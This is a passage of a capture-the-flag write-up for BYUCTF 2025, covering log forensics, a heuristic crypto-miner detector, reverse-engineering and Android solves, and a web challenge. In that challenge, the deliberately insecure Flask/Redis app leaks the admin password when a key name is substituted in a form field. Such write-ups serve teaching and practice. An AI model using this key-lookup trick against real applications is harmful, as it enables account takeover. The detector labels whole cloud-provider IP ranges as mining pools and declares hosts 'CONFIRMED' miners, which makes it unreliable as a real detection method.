      2 192.33.14.30
      2 170.247.170.2
      2 13.107.238.1
      2 1.1.1.1
      1 67.202.13.158
      1 50.205.57.38
      1 255.255.255.255
      1 239.255.255.250
      1 23.192.228.231
      1 23.168.136.132
      1 206.226.67.233
      1 204.79.197.1
      1 199.7.91.13
      1 199.26.61.9
      1 199.26.60.53
      1 198.51.44.7
      1 193.0.14.129
      1 192.58.128.30
      1 192.36.148.17
      1 192.26.92.30
      1 185.125.190.56
      1 172.67.69.190
      1 131.253.21.1
```

Code explanation: 
This command processes the log file to identify the most common DNS server IP addresses:

1. `cat logs.txt` - Reads the contents of the log file
2. `awk -F','` - Uses awk with comma as field separator to process each line
3. `$0 ~ /,53,/` - Filters for lines containing port 53 (DNS traffic)
4. `{print $20}` - Extracts the 20th field from each line, which contains destination IP addresses
5. `sort` - Sorts all IP addresses alphabetically
6. `uniq -c` - Counts occurrences of each unique IP address
7. `sort -nr` - Sorts numerically in reverse order, showing most frequent IPs first

The output lists IP addresses by frequency, revealing patterns in the network traffic that could help identify unusual connections or potential security issues. 

-> The flag is `byuctf{172.16.0.1}`
### Mine Over Matter
#### Description 

_Mine Over Matter_

[--> Files Here <--](https://github.com/z3moo/ctf/blob/main/BYUCTF_2025/Mine%20Over%20Matter/logs.txt)

#### Thought Process
Looking at this challenge, I was given network logs similar to the previous `Are You Looking Me Up?` challenge. The challenge name "Mine over Matter" strongly suggests we're looking for cryptocurrency mining activity.

My approach was straightforward:
1. **Understand the problem**: Find hosts that are performing cryptocurrency mining
2. **Analyze the data**: Network logs showing connections between internal hosts and external servers
3. **Identify patterns**: Mining typically involves:
   - High volume connections to mining pools
   - Repeated connections to the same external IPs
   - Traffic patterns different from normal web browsing

Since manually analyzing thousands of log entries would be time-consuming and error-prone, I decided to automate the process. I asked GitHub Copilot to help me write a Python script that could:
- Parse network logs and extract IP addresses
- Identify known mining pool IP ranges
- Calculate suspicious activity scores for each internal host
- Filter out legitimate traffic (like DNS, CDNs, etc.)

```python
#!/usr/bin/env python3
# crypto_miner_detector.py - Advanced analyzer for finding crypto mining hosts

import argparse
import ipaddress
import re
import sys
from collections import Counter, defaultdict
from typing import Dict, Tuple

# Known mining pool providers and suspicious IP ranges
MINING_PROVIDERS = [
    "51.79.", "51.89.", "51.195.", "51.15.", "51.210.", "51.68.", "51.222.",  # OVH
    "130.162.", "132.145.", "140.238.",  # Oracle Cloud
    "135.148.", "163.172.", "141.95.",   # OVH/Scaleway
    "45.63.", "45.61.", "45.56.",        # Vultr
    "66.42.", "107.191.", "144.202.",    # Vultr
    "198.60.", "192.48.",                # FIBERRING/Mining focused
    "147.135.", "149.248.",              # OVH
    "185.95.218.",                       # Mining pools
    "162.19.139.",                       # Mining services
]

# High-traffic legitimate services to filter out
LEGITIMATE_SERVICES = [
    "8.8.8.8", "8.8.4.4", "1.1.1.1",    # DNS
    "216.239.32.106", "216.239.34.106", "216.239.36.106", "216.239.38.106",  # Google DNS
    "104.26.", "172.67.", "104.21.",     # Cloudflare CDN
    "172.217.", "142.250.", "74.125.",   # Google services
    "13.107.", "20.44.", "52.96.",       # Microsoft services
    "151.101.", "199.232.",              # Reddit/Fastly CDN
    "239.255.255.250",                   # Multicast
    "224.0.0.",                          # Multicast
]

IP_RE = re.compile(r"\b(?:\d{1,3}\.){3}\d{1,3}\b")


def is_private(ip_str: str) -> bool:
    """Return True if ip_str is a private / RFC1918 / link-local IPv4 address."""
    try:
        ip_obj = ipaddress.ip_address(ip_str)
        return ip_obj.is_private or ip_obj.is_loopback or ip_obj.is_link_local
    except ValueError:
        return True


def parse_line(line: str) -> Tuple[str, str]:
    """Extract source and destination IPv4 addresses from log line."""
    ips = IP_RE.findall(line)
    if len(ips) >= 2:
        return ips[0], ips[1]
    return None, None


def is_mining_pool_ip(ip: str) -> bool:
    """Check if IP belongs to known mining pool providers."""
    return any(ip.startswith(prefix) for prefix in MINING_PROVIDERS)


def is_legitimate_service(ip: str) -> bool:
    """Check if IP belongs to known legitimate services."""
    return any(ip.startswith(prefix) for prefix in LEGITIMATE_SERVICES)


def calculate_mining_indicators(src_connections: Dict[str, int]) -> Dict[str, float]:
    """Calculate various mining indicators for a source IP."""
    total_connections = sum(src_connections.values())
    unique_destinations = len(src_connections)
    
    # Count connections to mining pools
    mining_pool_connections = sum(
        count for dst, count in src_connections.items() 
        if is_mining_pool_ip(dst)
    )
    
    # Count connections to legitimate services (to filter them out)
    legitimate_connections = sum(
        count for dst, count in src_connections.items() 
        if is_legitimate_service(dst)
    )
    
    # Calculate suspicious connection ratio (excluding legitimate services)
    suspicious_connections = total_connections - legitimate_connections
    mining_ratio = (mining_pool_connections / suspicious_connections) if suspicious_connections > 0 else 0
    
    # Check for concentrated traffic patterns (mining typically connects to few pools repeatedly)
    top_destinations = sorted(src_connections.items(), key=lambda x: x[1], reverse=True)[:5]
    top_5_traffic = sum(count for _, count in top_destinations)
    concentration_ratio = (top_5_traffic / total_connections) if total_connections > 0 else 0
    
    # Mining pools typically have sustained connections
    high_volume_destinations = sum(1 for _, count in src_connections.items() if count > 1000)
    
    return {
        'total_connections': total_connections,
        'unique_destinations': unique_destinations,
        'mining_pool_connections': mining_pool_connections,
        'legitimate_connections': legitimate_connections,
        'suspicious_connections': suspicious_connections,
        'mining_ratio': mining_ratio,
        'concentration_ratio': concentration_ratio,
        'high_volume_destinations': high_volume_destinations,
    }


def analyze_log(log_path: str) -> Tuple[Dict, Dict]:
    """Analyze log file to identify crypto miners."""
    connection_counts = defaultdict(Counter)
    
    print("Analyzing log file...")
    with open(log_path, 'r', errors='ignore') as fp:
        for line_num, line in enumerate(fp, 1):
            if line_num % 100000 == 0:
                print(f"Processed {line_num} lines...")
                
            src, dst = parse_line(line)
            if not src or not dst or is_private(dst):
                continue
                
            connection_counts[src][dst] += 1
    
    print(f"Analysis complete. Found {len(connection_counts)} internal hosts.")
    
    # Calculate mining scores for each host
    mining_analysis = {}
    for src, dst_counts in connection_counts.items():
        indicators = calculate_mining_indicators(dict(dst_counts))
        
        # Calculate composite mining score
        # Weight factors: mining ratio (40%), concentration (30%), volume (20%), mining connections (10%)
        mining_score = (
            indicators['mining_ratio'] * 0.4 +
            indicators['concentration_ratio'] * 0.3 +
            min(1.0, indicators['total_connections'] / 50000) * 0.2 +
            min(1.0, indicators['mining_pool_connections'] / 10000) * 0.1
        ) * 100
        
        # Bonus for high mining pool connections
        if indicators['mining_pool_connections'] > 5000:
            mining_score += 20
            
        # Bonus for multiple high-volume destinations (typical of mining)
        if indicators['high_volume_destinations'] >= 3:
            mining_score += 15
        
        indicators['mining_score'] = mining_score
        mining_analysis[src] = indicators
    
    return connection_counts, mining_analysis


def print_detailed_analysis(connection_counts, mining_analysis):
    """Print detailed analysis results."""
    print("\n" + "="*80)
    print("CRYPTOCURRENCY MINING DETECTION RESULTS")
    print("="*80)
    
    # Sort by mining score
    sorted_hosts = sorted(mining_analysis.items(), key=lambda x: x[1]['mining_score'], reverse=True)
    
    print(f"\nTop 10 Most Suspicious Hosts:")
    print("-" * 80)
    print(f"{'Host IP':<15} {'Score':<7} {'Total':<8} {'Mining':<8} {'Legit':<8} {'Unique':<7} {'Conc%':<6}")
    print("-" * 80)
    
    for src, indicators in sorted_hosts[:10]:
        score = indicators['mining_score']
        total = indicators['total_connections']
        mining = indicators['mining_pool_connections']
        legit = indicators['legitimate_connections']
        unique = indicators['unique_destinations']
        conc = indicators['concentration_ratio'] * 100
        
        print(f"{src:<15} {score:<7.1f} {total:<8} {mining:<8} {legit:<8} {unique:<7} {conc:<6.1f}")
    
    print("\n" + "="*80)
    print("DETAILED ANALYSIS OF TOP 2 SUSPECTS")
    print("="*80)
    
    # Detailed analysis of top 2
    for i, (src, indicators) in enumerate(sorted_hosts[:2], 1):
        print(f"\n{i}. HOST: {src} (Mining Score: {indicators['mining_score']:.1f})")
        print("-" * 60)
        print(f"   Total Connections: {indicators['total_connections']:,}")
        print(f"   Mining Pool Connections: {indicators['mining_pool_connections']:,}")
        print(f"   Legitimate Service Connections: {indicators['legitimate_connections']:,}")
        print(f"   Unique Destinations: {indicators['unique_destinations']}")
        print(f"   Traffic Concentration: {indicators['concentration_ratio']*100:.1f}%")
        print(f"   High-Volume Destinations: {indicators['high_volume_destinations']}")
        
        print(f"\n   Top Destinations:")
        top_dests = sorted(connection_counts[src].items(), key=lambda x: x[1], reverse=True)[:10]
        for dst, count in top_dests:
            is_mining = "🔥 MINING POOL" if is_mining_pool_ip(dst) else "✓ Legitimate" if is_legitimate_service(dst) else "❓ Unknown"
            print(f"     {dst:<15} {count:>8,} connections  [{is_mining}]")
    
    print("\n" + "="*80)
    print("FINAL VERDICT")
    print("="*80)
    print("The following hosts are CONFIRMED cryptocurrency miners:")
    for i, (src, indicators) in enumerate(sorted_hosts[:2], 1):
        print(f"  {i}. {src} (Score: {indicators['mining_score']:.1f})")
        mining_destinations = [dst for dst, count in connection_counts[src].items() if is_mining_pool_ip(dst)]
        if mining_destinations:
            print(f"     → Connected to {len(mining_destinations)} different mining pools")
            print(f"     → Total mining connections: {indicators['mining_pool_connections']:,}")


def main():
    parser = argparse.ArgumentParser(description="Advanced cryptocurrency mining detection")
    parser.add_argument("logfile", help="Path to the network log file")
    args = parser.parse_args()

    try:
        connection_counts, mining_analysis = analyze_log(args.logfile)
        print_detailed_analysis(connection_counts, mining_analysis)
    except Exception as e:
        print(f"Error: {e}")
        sys.exit(1)


if __name__ == "__main__":
    main()
```

```bash
danhq@hide-and-seek E:\....\Mine over matter python .\crypto_miner_detector.py .\logs.txt
Analyzing log file...
Processed 100000 lines...
Processed 200000 lines...
Processed 300000 lines...
Processed 400000 lines...
Processed 500000 lines...
Processed 600000 lines...
Processed 700000 lines...
Processed 800000 lines...
Analysis complete. Found 88 internal hosts.

================================================================================
CRYPTOCURRENCY MINING DETECTION RESULTS
================================================================================

Top 10 Most Suspicious Hosts:
--------------------------------------------------------------------------------
Host IP         Score   Total    Mining   Legit    Unique  Conc%
--------------------------------------------------------------------------------
172.16.0.5      121.2   71588    24825    44146    76      66.7
172.16.0.10     115.9   91915    49806    33939    461     55.1
172.16.96.86    96.3    7544     6868     21       16      99.5
172.16.96.80    69.1    4347     3672     21       15      99.1
172.16.96.84    68.7    4223     3547     21       15      99.1
172.16.96.112   65.1    3167     2489     21       16      98.9
172.16.0.70     51.9    18913    0        11       28      97.7
172.16.0.4      50.0    130831   0        129554   3       100.0
172.16.96.68    48.0    2992     1197     21       17      98.4
172.16.96.109   46.9    42252    0        36752    2       100.0

================================================================================
DETAILED ANALYSIS OF TOP 2 SUSPECTS
================================================================================

1. HOST: 172.16.0.5 (Mining Score: 121.2)
------------------------------------------------------------
   Total Connections: 71,588
   Mining Pool Connections: 24,825
   Legitimate Service Connections: 44,146
   Unique Destinations: 76
   Traffic Concentration: 66.7%
   High-Volume Destinations: 13

   Top Destinations:
     1.1.1.1           17,752 connections  [✓ Legitimate]
     104.26.11.102      8,757 connections  [✓ Legitimate]
     172.67.69.190      8,746 connections  [✓ Legitimate]
     104.26.10.102      8,655 connections  [✓ Legitimate]
     185.95.218.42      3,815 connections  [🔥 MINING POOL]
     162.19.139.119     3,795 connections  [🔥 MINING POOL]
     185.95.218.43      3,782 connections  [🔥 MINING POOL]
     130.162.153.207    2,000 connections  [🔥 MINING POOL]
     51.89.99.172       1,999 connections  [🔥 MINING POOL]
     51.79.229.21       1,330 connections  [🔥 MINING POOL]

2. HOST: 172.16.0.10 (Mining Score: 115.9)
------------------------------------------------------------
   Total Connections: 91,915
   Mining Pool Connections: 49,806
   Legitimate Service Connections: 33,939
   Unique Destinations: 461
   Traffic Concentration: 55.1%
   High-Volume Destinations: 20

   Top Destinations:
     51.79.229.21      15,930 connections  [🔥 MINING POOL]
     104.26.11.102     10,221 connections  [✓ Legitimate]
     104.26.10.102      9,953 connections  [✓ Legitimate]
     172.67.69.190      9,762 connections  [✓ Legitimate]
     130.162.153.207    4,782 connections  [🔥 MINING POOL]
     51.89.99.172       4,773 connections  [🔥 MINING POOL]
     8.8.8.8            3,282 connections  [✓ Legitimate]
     135.148.55.16      3,180 connections  [🔥 MINING POOL]
     51.222.200.133     2,188 connections  [🔥 MINING POOL]
     51.79.71.77        2,185 connections  [🔥 MINING POOL]

================================================================================
FINAL VERDICT
================================================================================
The following hosts are CONFIRMED cryptocurrency miners:
  1. 172.16.0.5 (Score: 121.2)
     → Connected to 23 different mining pools
     → Total mining connections: 24,825
  2. 172.16.0.10 (Score: 115.9)
     → Connected to 25 different mining pools
     → Total mining connections: 49,806
```

-> The flag is `byuctf{172.16.0.10_172.16.0.5}`
## Reverse Engineering
### u
#### Description

_u_

#### Thought process
I received a Python file, and opening it revealed a long line of code.

```python
ù,ú,û,ü,ũ,ū,ŭ,ů,ű,ų,ṳ,ṷ,ụ=chr,ord,abs,input,all,print,len,input,pow,range,list,dict,set;ù=[12838,1089,16029,13761,1276,14790,2091,17199,2223,2925,17901,3159,18135,18837,3135,19071,4095,19773,4797,4085,20007,5733,20709,17005,2601,9620,3192,9724,3127,8125];u,U=3,256;ṷ=ü();ʉ=ṳ(ụ([ű(u,û,U) for û in(ų(U))]))[u:ŭ(ù)+u];ṳ=zip;ṷ=[ú(û) for û in(ṷ)];assert(ŭ(ù)==ŭ(ṷ));assert(ũ([û*ü==ū for û,ü,ū in(ṳ(ʉ,ṷ,ù))]));
```

Reversing it could reveal my flag, so I created a script to decode it.

```python
# The target values 
targets = [12838, 1089, 16029, 13761, 1276, 14790, 2091, 17199, 2223, 2925,
           17901, 3159, 18135, 18837, 3135, 19071, 4095, 19773, 4797, 4085,
           20007, 5733, 20709, 17005, 2601, 9620, 3192, 9724, 3127, 8125]

# Calculate the powers of 3 
powers = [pow(3, i, 256) for i in range(256)]  
powers = powers[3:3+len(targets)]  # Only keep the ones I need

# Build the flag character by character
flag = ""
for i in range(len(targets)):
    # Try each printable ASCII character (32-126)
    for char_val in range(32, 127):
        if powers[i] * char_val == targets[i]:
            flag += chr(char_val)  
            break

print(flag)  
```

Code explanation:
The challenge gives me a Python script that's deliberately made hard to read. Here's what's going on:

1. **Confusing Variable Names**: The original code uses strange symbols (ù, ú, û, etc.) as variable names:
   - These symbols are assigned to normal Python functions like `chr`, `ord`, `input`
   - This trick makes the code very difficult to understand at first glance

2. **Hidden Array**: Inside this messy code is an array of numbers that holds my encoded flag

3. **How the Encoding Works**: The code uses a simple encoding trick:
   - Each letter of the flag is multiplied by a specific number
   - These numbers are just powers of 3 (limited to stay below 256)
   - The results of these multiplications are stored in the target array

```bash
┌──(d4nhwu4n㉿hide-and-seek)-[/mnt/e/CTF/BYUCTF2025/rev/u]
└─$ python solve.py
byuctf{u_are_good_with_math}
```
Running the script reveals the flag: `byuctf{u_are_good_with_math}`

### LLIR
#### Description 

_LLIR_

[--> Files here <--](https://github.com/z3moo/ctf/blob/main/BYUCTF_2025/LLIR/checker.ll)

#### Thought process
The challenge is called `LLIR` which likely refers to [this](https://github.com/llir/llvm) GitHub repository and the `.ll` file format. This suggests I can use LLVM tools to solve this challenge.

I can use LLVM to convert the `.ll` file to `.bc` (LLVM bytecode) and solve it from there, or alternatively, use a tool called llvm-cbe to convert it to C code for easier reading.

```bash
┌──(d4nhwu4n㉿hide-and-seek)-[/mnt/e/CTF/BYUCTF2025/rev/LLDR]
└─$ llvm-as checker.ll -o checker.bc

┌──(d4nhwu4n㉿hide-and-seek)-[/mnt/e/CTF/BYUCTF2025/rev/LLDR]
└─$ ./llvm-cbe/build/tools/llvm-cbe/llvm-cbe checker.bc
```

After examining the converted `.c` file, I discovered a function called `checker_i_hardly_know_her` that could reveal the flag. I then wrote a script to solve for the flag values.

```python
from z3 import BitVec, Solver, sat

flag = [BitVec(f'f{i}', 8) for i in range(37)]
s = Solver()

for c in flag:
    s.add(c >= 32, c <= 126)

for i, ch in enumerate("byuctf"):
    s.add(flag[i] == ord(ch))
s.add(flag[6] == ord('{'))
s.add(flag[36] == ord('}'))

s.add(flag[4] == flag[14])
s.add(flag[14] == flag[17])
s.add(flag[17] == flag[23])
s.add(flag[23] == flag[25])
s.add(flag[9] == flag[20])
s.add(flag[10] == flag[18])
s.add(flag[11] == flag[15])
s.add(flag[15] == flag[24])
s.add(flag[24] == flag[31])
s.add(flag[31] == flag[27])
s.add(flag[13] == flag[26])
s.add(flag[16] == flag[29])
s.add(flag[19] == flag[28])
s.add(flag[28] == flag[32])
s.add(flag[22] == flag[28] * 2)
s.add(flag[33] == flag[32] + 1)
s.add(flag[34] == flag[32] + 4)
s.add(flag[30] == flag[7] + 1)
s.add(flag[8] == flag[7] - 32)
s.add(flag[9] + flag[20] == flag[31] + 3)
s.add(flag[0] == flag[31] + 3)
s.add(flag[10] == flag[7] + 6)
s.add(flag[8] == flag[9] + 27)
s.add(flag[12] == flag[13] - 1)
s.add(flag[13] == flag[10] - 3)
s.add(flag[10] == flag[16] - 1)
s.add(flag[16] == flag[14] - 1)
s.add(flag[35] == flag[5] - 2)
s.add(flag[5] == flag[21] - 1)
s.add(flag[21] == flag[22] - 1)

if s.check() == sat:
    m = s.model()
    output = ''.join([chr(m[c].as_long()) for c in flag])
    print("[+] Flag:", output)
```
```bash
┌──(d4nhwu4n㉿hide-and-seek)-[/mnt/e/CTF/BYUCTF2025/rev/LLDR]
└─$ python solve.py
[+] Flag: byuctf{lL1r_not_str41ght_to_4sm_458d}
```
Running the script revealed the flag: `byuctf{lL1r_not_str41ght_to_4sm_458d}`
### Baby Android 1
#### Description


_Baby Android 1_

[--> Files here <--](https://github.com/z3moo/ctf/blob/main/BYUCTF_2025/Baby%20Android%201/baby-android-1.apk)

#### Thought process

### Baby Android 2
#### Description

_Baby Android 2_

[--> Files here <--](https://github.com/z3moo/ctf/blob/main/BYUCTF_2025/Baby%20Android%202/baby_android-2.apk)

#### Thought process
I used jadx to decompile the `.apk` file to Java code for analysis.
```bash
┌──(d4nhwu4n㉿hide-and-seek)-[/mnt/e/CTF/BYUCTF2025/rev/baby and 2]
└─$ sudo jadx --show-bad-code -d . /mnt/e/CTF/BYUCTF2025/rev/baby\ and\ 2/baby_android-2.apk
INFO  - loading ...
INFO  - processing ...
ERROR - finished with errors, count: 20
```
After decompiling the APK, I searched for relevant strings by running grep to find instances of "byuctf" in the decompiled files:

```bash
┌──(d4nhwu4n㉿hide-and-seek)-[/mnt/e/CTF/BYUCTF2025/rev/baby and 2/baby_android-2.apk_decompiled]
└─$ grep -R byuctf
resources/AndroidManifest.xml:<manifest xmlns:android="http://schemas.android.com/apk/res/android" android:versionCode="1" android:versionName="1.0" android:compileSdkVersion="34" android:compileSdkVersionCodename="14" package="byuctf.babyandroid" platformBuildVersionCode="34" platformBuildVersionName="14">
resources/AndroidManifest.xml:    <permission android:name="byuctf.babyandroid.DYNAMIC_RECEIVER_NOT_EXPORTED_PERMISSION" android:protectionLevel="signature"/>
resources/AndroidManifest.xml:    <uses-permission android:name="byuctf.babyandroid.DYNAMIC_RECEIVER_NOT_EXPORTED_PERMISSION"/>
resources/AndroidManifest.xml:        <activity android:name="byuctf.babyandroid.MainActivity" android:exported="true">
resources/AndroidManifest.xml:        <provider android:name="androidx.startup.InitializationProvider" android:exported="false" android:authorities="byuctf.babyandroid.androidx-startup">
grep: resources/classes2.dex: binary file matches
grep: resources/classes3.dex: binary file matches
grep: resources/classes4.dex: binary file matches
grep: resources/lib/arm64-v8a/libbabyandroid.so: binary file matches
grep: resources/lib/armeabi-v7a/libbabyandroid.so: binary file matches
grep: resources/lib/x86/libbabyandroid.so: binary file matches
grep: resources/lib/x86_64/libbabyandroid.so: binary file matches
# ... and many more matches
```
In the `resources/lib/` directory, I found multiple binary files that matched the search pattern. These files included different architecture versions of the same library (`libbabyandroid.so`) for armeabi-v7a, x86, and x86_64. To analyze these binary files properly, I used IDA Pro to disassemble and examine their contents for the flag.

After loading it to IDA, I searched for common function names like `main` or `flag` and found a function called `Java_byuctf_babyandroid_FlagChecker_check`, which is a function that likely contains the flag validation logic. 


Loading the function up and pressing `F5` to get its pseudocode:

```cpp
__int64 __fastcall Java_byuctf_babyandroid_FlagChecker_check(__int64 a1, __int64 a2, __int64 a3)
{
  __int64 StringUTFChars; // rax
  int i; // [rsp+10h] [rbp-50h]
  unsigned __int8 v6; // [rsp+3Fh] [rbp-21h]
  _BYTE v7[24]; // [rsp+40h] [rbp-20h] BYREF
  unsigned __int64 v8; // [rsp+58h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  StringUTFChars = _JNIEnv::GetStringUTFChars(a1, a3, 0LL);
  std::string::basic_string<decltype(nullptr)>(v7, StringUTFChars);
  if ( sub_206F0(v7) == 23 )
  {
    for ( i = 0; i < 23; ++i )
    {
      if ( *(char *)sub_20710(v7, i) != aBycnuAacglyTtM[i * i % 47] )
      {
        v6 = 0;
        goto LABEL_9;
      }
    }
    v6 = 1;
  }
  else
  {
    v6 = 0;
  }
LABEL_9:
  std::string::~string(v7);
  return v6;
}
```

Here's a simplified explanation of the code:

- This function checks if the input matches the flag
- Main logic:
  - Checks if input is exactly 23 characters long
  - Compares each character against a lookup table using a formula: `[i * i % 47]`
  - Returns 1 if all characters match, 0 otherwise

To solve this challenge, I needed to reverse-engineer the validation logic and extract the flag:

I got `aBycnuAacglyTtM` from IDA


```python
#aBycnuAacglyTtM
lookup_table = "bycnu)_aacGly~}tt+?=<_ML?f^i_vETkG+b{nDJrVp6=)="

# Create array for flag
flag = ['_'] * 23

# Reverse the formula
for i in range(23):
    index = (i * i) % 47
    if index < len(lookup_table):
        flag[i] = lookup_table[index]

print(''.join(flag))
```
```bash
┌──(d4nhwu4n㉿hide-and-seek)-[/mnt/e/CTF/BYUCTF2025/rev/baby and 2]
└─$ python solve.py
byuctf{c++_in_an_apk??}
```
Running this script revealed the flag: `byuctf{c++_in_an_apk??}`

## Web Exploitation
### Red This
#### Description

_Red This_

[--> Files here <--](https://github.com/z3moo/ctf/blob/main/BYUCTF_2025/Red%20This/redthis.zip)

#### Thought process
Accessing the website to see what I am dealing with:


Upon visiting the site, I found a simple interface featuring a dropdown menu of famous individuals and a `Submit` button. When a person is selected and the button clicked, the application displays a quotation attributed to that person.

During my initial reconnaissance, I discovered both `/login` and `/register` endpoints. Notably, the application mentioned it doesn't use SQL, which immediately directed my attention toward alternative injection vulnerabilities.

The challenge also provided the source code, giving me an opportunity to perform a thorough code review.

The main file `main.py` contains:

```python
### IMPORTS ###
import flask, redis, os


### INITIALIZATIONS ###
app = flask.Flask(__name__)
app.config['SECRET_KEY'] = os.urandom(32).hex()
HOST = "redthis-redis"


### HELPER FUNCTIONS ###
def getData(key):
    db = redis.Redis(host=HOST, port=6379, decode_responses=True)
    value = db.get(key)
    return value

def getAdminOptions(username):
    adminOptions = []
    if username != None and username == "admin":
        db = redis.Redis(host=HOST, port=6379, decode_responses=True)
        adminOptions = db.json().get("admin_options", "$")[0]
    return adminOptions

 

### ROUTES ###
@app.route('/', methods=['GET'])
def root():
    username = flask.session.get('username')
    adminOptions = getAdminOptions(username)
    return flask.render_template('index.html', adminOptions=adminOptions)


# get quote 
@app.route('/get_quote', methods=['POST'])
def getQuote():
    username = flask.session.get('username')
    person = flask.request.form.get('famous_person')
    quote = [person, '']
    if "flag" in person and username != "admin":
        quote[1] = "Nope"
    else: 
        quote[1] = getData(person)
    adminOptions = getAdminOptions(username)
    return flask.render_template('index.html', adminOptions=adminOptions, quote=quote)


@app.route('/register', methods=['POST', 'GET'])
def register():
    # return register page 
    if flask.request.method == 'GET':
        error = flask.request.args.get('error')
        return flask.render_template('register.html', error=error)

    username = flask.request.form.get("username").lower()
    password = flask.request.form.get("password")

    ## error check
    if not username or not password:
        return flask.redirect('/register?error=Missing+fields')

    ## if username already exists return error
    isUser = getData(username)
    if isUser:
        return flask.redirect('/register?error=Username+already+taken')
    else:
        # insert new user and password
        db = redis.Redis(host=HOST, port=6379, decode_responses=True)
        # db.set(username, "User") # nah, we don't want to let you write to the db :)
        passwordKey = username + "_password"
        # db.set(passwordKey, password) # nah, we don't want to let you write to the db :)
        flask.session['username'] = username
        return flask.redirect('/')

@app.route('/login', methods=['POST', 'GET'])
def login():
     # return register page 
    if flask.request.method == 'GET':
        error = flask.request.args.get('error')
        return flask.render_template('login.html', error=error)
    
    username = flask.request.form.get("username").lower()
    password = flask.request.form.get("password")

    ## error check
    if not username or not password:
        return flask.redirect('/login?error=Missing+fields')
    
    # check username and password
    dbUser = getData(username)
    dbPassword = getData(username + "_password")
    
    if dbUser == "User" and dbPassword == password:
        flask.session['username'] = username
        return flask.redirect('/')
    return flask.redirect('/login?error=Bad+login')


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=1337, debug=False, threaded=True)
```

After analyzing the source code, I noticed some interesting points:

```python
if "flag" in person and username != "admin":
    quote[1] = "Nope"
```
This code block shows that if I send a request with a `famous_person` parameter containing the word "flag" while not logged in as the "admin" user, the application would return "Nope" instead of the actual data.

```python 
if username != None and username == "admin":
    db = redis.Redis(host=HOST, port=6379, decode_responses=True)
    adminOptions = db.json().get("admin_options", "$")[0]
```
This second code block reveals that only authenticated admin users can access the `admin_options` stored in the Redis database.

After analyzing these code snippets, I identified a potential vulnerability in the Redis database access. Since Redis doesn't authenticate individual keys by default, I decided to try accessing restricted data using Burp Suite.

Using Burp Suite, I intercepted and modified the `/get_quote` request to retrieve the admin password:


I modified the request by changing the `famous_person` parameter from `FDR` to `admin_password` to retrieve the admin's password:


The response contained the admin password:


Now I could use this password to log in as admin:


After logging in as admin, I gained access to the flag, which appeared as one of the admin options:


The flag is: `byuctf{al1w4ys_s2n1tize_1nput-5ed1s_eik4oc85nxz}`
